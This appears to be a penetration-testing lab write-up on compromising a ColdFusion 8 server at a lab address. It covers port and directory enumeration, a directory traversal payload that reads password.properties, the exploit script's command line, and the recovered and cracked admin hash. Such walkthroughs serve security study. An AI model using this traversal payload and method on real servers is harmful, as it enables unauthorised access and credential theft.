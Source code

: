 Enumeration

Enumeration

# NMAP
## TCP Ports
### sudo nmap -Pn -p- 10.11.1.10
![b92e64a728aa058c4b5febbe5a0e419f.png](../../../_resources/3fc3d4e1e6c14707860014985312cf6c.png)


# dirb
Non-recursive scan
### dirb http://10.11.1.10 -r
![98dda4b9588d5a0540d259886ea6d092.png](../../../_resources/0aa9bda96ea74282a6d6e1c835be0437.png)

Recursive scan on the ColdFusion administrator link
### dirb http://10.11.1.10/CFIDE/administrator/
![5ddc04f72da2ffefece02756d716c513.png](../../../_resources/174dc093aa6548fcb725b0a3854b76dc.png)


# Nikto
![eefe619c3d685418d98d47267130281c.png](../../../_resources/e366bbd24d614977950cdb209ca3efb6.png)

# Searchsploit
Search for ColdFusion
![2e67ff55f9c36f2d567b76298dfaf193.png](../../../_resources/0d9450d4cac0424f89c53547e59f07b4.png)

## Directory Traversal, exploit 14641
After examining the Directory Traversal exploit 14641 (-x switch), download it.
![3e57c568b5e3f1bd024c86bc67f0becb.png](../../../_resources/59dad30f089a4c7193eef53a2d6610d7.png)

This is the exploit code for 14641
[14641.py](../../../_resources/411c5cb7d09b473a9f8c5977f1552776.py)

The usage for 14641.py
![bc6ddb1276e12e02a04cf96b91e132c3.png](../../../_resources/cd01eb8a9c07496091bccb7c1424117a.png)

Within the exploit,a string a working string is specified
### http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![b2a8db76f9a75cd8989dfc9c467b1455.png](../../../_resources/7d87a6751b1a43b4a68a442c2e67615b.png)

Run exploit on the CLI. Ensure to use the target IP
### python 14641.py 10.11.1.10 80 ../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![d69d92157b69f1e4e7eda0c33ca7593d.png](../../../_resources/d44c5551aae94cb7bbed9c3366ce22c1.png)

Run the exploit on the browser as well
### http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![cf8_passwd.png](../../../_resources/fce1ee7db2b341b7a3b9d4dd8ce48813.png)

The Administrator hash is found: 
### AAFDC23870ECBCD3D557B6423A8982134E17927E

# Crackstation

Crack the ColdFusion 8 'admin' password hash. Password is: pass123
![53f0079156bedae8e1bdb0175a5c8c3e.png](../../../_resources/b0078eca3c04478caaa5bd23e33a6d7b.png)



# Other Tools
